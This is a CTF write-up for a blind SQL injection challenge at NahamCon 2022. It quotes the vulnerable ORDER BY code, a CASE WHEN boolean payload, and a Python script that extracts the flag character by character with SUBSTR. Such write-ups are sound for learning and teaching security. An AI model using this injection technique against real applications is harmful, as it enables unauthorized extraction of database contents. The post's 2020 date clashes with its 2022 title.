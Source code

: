 
---
title: NahamCon CTF 2022 - Blind SQLi
# Summary for listings and search engines
summary: Medium Web Challenge Writeup 
# Link this post with a project
# projects: []

# Date published
date: "2020-05-13T00:00:00Z"

# Date updated
#lastmod: "2020-12-13T00:00:00Z"

# Is this an unpublished draft?
#draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
 
 
 # placement: 2
  #preview_only: false

authors:
- Wassila Chtioui

tags:
- Blind SQLi
- Web Exploitation
- CTF Write-up
- Flaskmetal Alchemist

categories:
- Web
- CTF
- SQLi
---


### Introduction 
After spending the last month learning about each vulnerability and practising through labs. I had the oppportunity to evalute what I've leant so far through **_NahamCon CTF_** along with that my team **_Arr3stY0u_**.

I mostly enjoyed a Blind SQL Injection task so I thought why not sharing a writeup. 

### Flaskmetal Alchemist - 168 points  - 260 Solves (medium)

![alt text](https://i.imgur.com/PfXdjUZ.png)

The website contained a search bar having a Sort By drop-down list with 3 options: Name, Symbol and Atomic Number. **SQL Injection.. is it you ?**

I took a look at the source code provided. 

![alt text](https://i.imgur.com/f2s7lit.png)

Here, the most interesting line is :

``` 
metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
``` 

After some google research, we can understand through the previous line of code that the injection point is the ORDER_BY CLAUSE since it takes the result of the text() function - _which allows us to excecute SQL statements_ - as argument.  
Using burpsuite, it is possible to intercept the request and change the post parameters. 

First, let's check our methodology.
Knowing that we control the ORDER_BY CLAUSE, we can trigger any SQL Statement we want to be executed. 
To verify this, I used the following payload:

``` 
search=Li&order=(SELECT (CASE WHEN (1=1) THEN atomic_number else name END)); 
```

##### PS: I tried using the IF statement but it didn't work since it is only executed in the beggining of a query. Fortunately, "CASE" has the same function.

* **When true: the table is ordered by Atomic Number ==>** 

![alt text](https://i.imgur.com/sRAz5ba.png)

* **When false: the table is ordered by Name ==>**

![alt text](https://i.imgur.com/rg79P2L.png)

At this level, we made sure that according to the order of the elements, we can figure out if the condition we set in the CASE Statement is True or False. 
This comes to say that, in order to exfiltrate the flag, we can compare each character based on the True/False method.
To do so, we used the SUBSTR() function to parse the string character by character. We were also given in the source code the table and the column name where we can find the flag. 

Therefore, in order to automate this, I wrote the following script:
```
import requests, time

s = requests.Session()
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','_','{','}']
URL = "http://challenge.nahamcon.com:31148/"
final = ""
for i in range(1,30):
        for x in dictionary:
                exploit = "(SELECT (CASE WHEN (SUBSTR((SELECT flag FROM flag)," + str(i) + ",1) = '" + x + "')THEN atomic_number else name END));"
                #print exploit
                data = {'search' : 'Li' , 'order' : exploit }
                r = s.post(url = URL , data = data)
                #print(r.text)
                #print(r.text.index("Li"))
                if r.text.index("Li") == 2657 :
                        final = final + x
                        print "Leaking contents: " + final
                        break

```

And now we go eat something while our script is running ! 

![alt text](https://i.imgur.com/UvP81lP.png)

Aaand VOILAA ! 

### Conclusion
To sum up, this task sharpened my scripting skills; I also had the opportunity to dive in more into SQL Injection types. I congratulate the author and I look forward to the next edition.
